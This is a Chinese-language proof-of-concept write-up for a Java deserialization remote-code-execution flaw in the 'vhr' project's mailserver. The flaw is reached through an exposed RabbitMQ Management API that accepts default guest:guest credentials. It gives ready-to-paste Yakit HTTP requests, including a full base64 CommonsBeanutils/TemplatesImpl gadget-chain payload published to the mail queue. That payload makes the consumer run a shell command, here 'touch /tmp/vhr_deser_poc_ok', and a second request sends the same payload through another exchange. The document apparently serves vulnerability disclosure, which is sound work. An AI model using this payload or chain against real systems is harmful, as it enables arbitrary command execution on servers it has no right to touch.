


# VHR-VULN-006 完整 Yakit PoC（可直接粘贴发包器）

目标：`127.0.0.1:15672`（RabbitMQ Management）  
认证：`Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=`（guest:guest）  
期望触落：宿主机 `/tmp/vhr_deser_poc_ok`（mailserver 需 `consumers=1`）

用法：Yakit → 新建「HTTP」/发包器 → **整段复制粘贴** → 发送。

---

## PoC-0 取证前清理（终端，非 Yakit）

```bash
rm -f /tmp/vhr_deser_poc_ok
```

---

## PoC-1 探测 Management / 弱口令

```http
GET /api/overview HTTP/1.1
Host: 127.0.0.1:15672
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Accept: application/json
Connection: close


```

期望：HTTP 200

> **【截图】** 图1 — overview 200  
> 

---

## PoC-2 确认队列消费者

```http
GET /api/queues/%2F/javaboy.mail.queue HTTP/1.1
Host: 127.0.0.1:15672
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Accept: application/json
Connection: close


```

期望：JSON 中 `"consumers":1`（为 0 则先启动 mailserver）

> **【截图】** 图2 — consumers=1  
> 

---

## PoC-3 主漏洞包：投递 Java 反序列化 payload（完整）

期望响应：`{"routed":true}`

```http
POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
Host: 127.0.0.1:15672
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Content-Type: application/json
Content-Length: 2312
Accept: application/json
Connection: close

{"properties":{"content_type":"application/x-java-serialized-object","delivery_mode":2},"routing_key":"javaboy.mail.queue","payload":"rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgAqamF2YS5sYW5nLlN0cmluZyRDYXNlSW5zZW5zaXRpdmVDb21wYXJhdG9ydwNcfVxQ5c4CAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB+AARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAABdXIAAltCrPMX+AYIVOACAAB4cAAAA+rK/rq+AAAAMgBCAQBkb3JnL2FwYWNoZS9jb2xsZWN0aW9ucy9jb3lvdGUvZGVzZXJpYWxpemF0aW9uL3N0ZC9TdHJpbmdEZXNlcmlhbGl6ZXI2MDZkYzkyYmU3N2Y0NTk0YTRlM2RmZjM1MDAzYTg4YwcAAQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHAAMBAARiYXNlAQASTGphdmEvbGFuZy9TdHJpbmc7AQADc2VwAQADY21kAQAGPGluaXQ+AQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcACwwACQAKCgAEAA0BAAdvcy5uYW1lCAAPAQAQamF2YS9sYW5nL1N5c3RlbQcAEQEAC2dldFByb3BlcnR5AQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsMABMAFAoAEgAVAQAQamF2YS9sYW5nL1N0cmluZwcAFwEAC3RvTG93ZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsMABkAGgoAGAAbAQADd2luCAAdAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoMAB8AIAoAGAAhAQAHY21kLmV4ZQgAIwwABQAGCQACACUBAAIvYwgAJwwABwAGCQACACkBAAcvYmluL3NoCAArAQACLWMIAC0MAAgABgkAAgAvAQAYamF2YS9sYW5nL1Byb2Nlc3NCdWlsZGVyBwAxAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgwACQAzCgAyADQBAAVzdGFydAEAFSgpTGphdmEvbGFuZy9Qcm9jZXNzOwwANgA3CgAyADgBABBqYXZhL2xhbmcvT2JqZWN0BwA6AQAIPGNsaW5pdD4BABt0b3VjaCAvdG1wL3Zocl9kZXNlcl9wb2Nfb2sIAD0KAAIADQEABENvZGUBAA1TdGFja01hcFRhYmxlACEAAgAEAAAAAwAJAAUABgAAAAkABwAGAAAACQAIAAYAAAACAAEACQAKAAEAQAAAAIQABAACAAAAUyq3AA4SELgAFrYAHBIetgAimQAQEiSzACYSKLMAKqcADRIsswAmEi6zACoGvQAYWQOyACZTWQSyACpTWQWyADBTTLsAMlkrtwA1tgA5V6cABEyxAAEABABOAFEADAABAEEAAAAXAAT/ACEAAQcAAgAACWUHAAz8AAAHADsACAA8AAoAAQBAAAAAGgACAAAAAAAOEj6zADC7AAJZtwA/V7EAAAAAAABwdAAkZTgzZjlkNjItYTk0ZS00ZDhjLWE4OTQtMjA3YjRlZjdlNjgycHcBAHhxAH4ADXg=","payload_encoding":"base64"}
```

> **【截图】** 图3 — routed:true  
> 

---

## PoC-3b 备用：经业务 Exchange 投递（完整）

若 PoC-3 的 `amq.default` 在你环境异常，改用本包：

```http
POST /api/exchanges/%2F/javaboy.mail.exchange/publish HTTP/1.1
Host: 127.0.0.1:15672
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Content-Type: application/json
Content-Length: 2318
Accept: application/json
Connection: close

{"properties":{"content_type":"application/x-java-serialized-object","delivery_mode":2},"routing_key":"javaboy.mail.routing.key","payload":"rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgAqamF2YS5sYW5nLlN0cmluZyRDYXNlSW5zZW5zaXRpdmVDb21wYXJhdG9ydwNcfVxQ5c4CAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB+AARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAABdXIAAltCrPMX+AYIVOACAAB4cAAAA+rK/rq+AAAAMgBCAQBkb3JnL2FwYWNoZS9jb2xsZWN0aW9ucy9jb3lvdGUvZGVzZXJpYWxpemF0aW9uL3N0ZC9TdHJpbmdEZXNlcmlhbGl6ZXI2MDZkYzkyYmU3N2Y0NTk0YTRlM2RmZjM1MDAzYTg4YwcAAQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHAAMBAARiYXNlAQASTGphdmEvbGFuZy9TdHJpbmc7AQADc2VwAQADY21kAQAGPGluaXQ+AQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcACwwACQAKCgAEAA0BAAdvcy5uYW1lCAAPAQAQamF2YS9sYW5nL1N5c3RlbQcAEQEAC2dldFByb3BlcnR5AQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsMABMAFAoAEgAVAQAQamF2YS9sYW5nL1N0cmluZwcAFwEAC3RvTG93ZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsMABkAGgoAGAAbAQADd2luCAAdAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoMAB8AIAoAGAAhAQAHY21kLmV4ZQgAIwwABQAGCQACACUBAAIvYwgAJwwABwAGCQACACkBAAcvYmluL3NoCAArAQACLWMIAC0MAAgABgkAAgAvAQAYamF2YS9sYW5nL1Byb2Nlc3NCdWlsZGVyBwAxAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgwACQAzCgAyADQBAAVzdGFydAEAFSgpTGphdmEvbGFuZy9Qcm9jZXNzOwwANgA3CgAyADgBABBqYXZhL2xhbmcvT2JqZWN0BwA6AQAIPGNsaW5pdD4BABt0b3VjaCAvdG1wL3Zocl9kZXNlcl9wb2Nfb2sIAD0KAAIADQEABENvZGUBAA1TdGFja01hcFRhYmxlACEAAgAEAAAAAwAJAAUABgAAAAkABwAGAAAACQAIAAYAAAACAAEACQAKAAEAQAAAAIQABAACAAAAUyq3AA4SELgAFrYAHBIetgAimQAQEiSzACYSKLMAKqcADRIsswAmEi6zACoGvQAYWQOyACZTWQSyACpTWQWyADBTTLsAMlkrtwA1tgA5V6cABEyxAAEABABOAFEADAABAEEAAAAXAAT/ACEAAQcAAgAACWUHAAz8AAAHADsACAA8AAoAAQBAAAAAGgACAAAAAAAOEj6zADC7AAJZtwA/V7EAAAAAAABwdAAkZTgzZjlkNjItYTk0ZS00ZDhjLWE4OTQtMjA3YjRlZjdlNjgycHcBAHhxAH4ADXg=","payload_encoding":"base64"}
```

---

## PoC-4 命令执行验证（宿主机终端）

```bash
ls -la /tmp/vhr_deser_poc_ok
```

> **【截图】** 图4 — 文件存在  
> 

> **【截图】** 图5 — mailserver 日志（SerializationUtils / BeanComparator）  
> 

---

## 说明

- 本漏洞入口是 **MQ Management HTTP / AMQP**，不是 vhr-web 8081 业务接口。
- RCE 在 **mailserver JVM 宿主机**，不要进 RabbitMQ Docker 容器查 `/tmp`。
